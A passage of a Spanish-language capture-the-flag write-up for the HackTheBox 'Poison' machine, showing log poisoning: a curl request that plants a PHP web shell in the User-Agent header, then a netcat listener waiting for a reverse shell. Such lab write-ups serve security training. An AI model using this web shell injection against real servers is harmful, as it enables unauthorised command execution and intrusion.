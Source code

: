 ## Shell as www

- Algo que podemos hacer es que para controlar nosotros el comando podemos inyectar lo siguiente para poder hacerlo mucho mas cómodo mediante el parámetro `cmd` nosotros le vamos a pasar el comando.

```bash
❯ curl -s -X GET "http://10.10.10.84/test" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /test was not found on this server.</p>
</body></html>
```

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/poison/5.png">
</p>

- Ahora nos vamos a poner en escucha con `netcat` para enviarnos una reverse `shell`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...

```

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/poison/6.png">
</p>
